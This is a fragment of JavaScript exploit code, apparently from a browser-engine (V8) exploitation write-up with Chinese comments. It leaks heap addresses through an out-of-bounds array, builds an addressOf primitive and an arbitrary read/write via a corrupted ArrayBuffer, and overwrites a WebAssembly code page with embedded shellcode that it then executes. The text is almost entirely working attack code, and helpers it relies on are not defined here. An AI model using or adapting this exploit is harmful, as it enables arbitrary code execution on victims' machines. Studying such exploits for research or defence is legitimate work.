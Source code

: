 ```
var arb_buf = new ArrayBuffer(0x10);
var obj_arr = [buf];

compression_high = u64f(oob_arr[0x32])[0];
obj_elements_map_addr = u64f(oob_arr[0x3c])[1];
double_elements_map_addr = u64f(oob_arr[0x22])[1];
print("compression_high=" + compression_high.toString(16));
print("obj_elements_map_addr=" + obj_elements_map_addr.toString(16));
print("double_elements_map_addr=" + double_elements_map_addr.toString(16));


function addressOf(mobj) `{`
   obj_arr[0] = mobj;
   oob_arr[0x3c] = p64f(0,double_elements_map_addr);
   var addr = BigInt(u64f(obj_arr[0])[0]) - 0x1n + (BigInt(compression_high) &lt;&lt; 32n);
   oob_arr[0x3c] = p64f(0,obj_elements_map_addr);
   return addr;
`}`

/*print(addressOf(buf).toString(16));
//%DebugPrint(buf);
%SystemBreak(); */
const wasmCode = new Uint8Array([0x00,0x61,0x73,0x6D,0x01,0x00,0x00,0x00,0x01,0x85,0x80,0x80,0x80,0x00,0x01,0x60,0x00,0x01,0x7F,0x03,0x82,0x80,0x80,0x80,0x00,0x01,0x00,0x04,0x84,0x80,0x80,0x80,0x00,0x01,0x70,0x00,0x00,0x05,0x83,0x80,0x80,0x80,0x00,0x01,0x00,0x01,0x06,0x81,0x80,0x80,0x80,0x00,0x00,0x07,0x91,0x80,0x80,0x80,0x00,0x02,0x06,0x6D,0x65,0x6D,0x6F,0x72,0x79,0x02,0x00,0x04,0x6D,0x61,0x69,0x6E,0x00,0x00,0x0A,0x8A,0x80,0x80,0x80,0x00,0x01,0x84,0x80,0x80,0x80,0x00,0x00,0x41,0x2A,0x0B]);
const shellcode = new Uint32Array([186,114176,46071808,3087007744,41,2303198479,3091735556,487129090,16777343,608471368,1153910792,4132,2370306048,1208493172,3122936971,16,10936,1208291072,1210334347,50887,565706752,251658240,1015760901,3334948900,1,8632,1208291072,1210334347,181959,565706752,251658240,800606213,795765090,1207986291,1210320009,1210334349,50887,3343384576,194,3913728,84869120]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;

var wasm_shellcode_ptr_addr = addressOf(wasmInstance) + 0x68n;
print(wasm_shellcode_ptr_addr.toString(16));

oob_arr[0x36] = p64f(0,0x100);
oob_arr[0x37] = p64f(0,big2int(wasm_shellcode_ptr_addr));
oob_arr[0x38] = p64f(compression_high,0);
var adv = new DataView(arb_buf);
var wasm_shellcode_addr = adv.getBigUint64(0,true);
print('wasm_shellcode_addr=' + wasm_shellcode_addr.toString(16));

oob_arr[0x37] = p64f(0,big2int(wasm_shellcode_addr));
oob_arr[0x38] = p64f(big2int(wasm_shellcode_addr &gt;&gt; 32n),0);
//替换wasm的shellcode
for (var i=0;i&lt;shellcode.length;i++) `{`
   adv.setUint32(i*4,shellcode[i],true);
`}`
//执行shellcode
func();

/*%DebugPrint(wasmInstance);
%DebugPrint(oob_arr);
%DebugPrint(arb_buf);
%SystemBreak();
*/
```
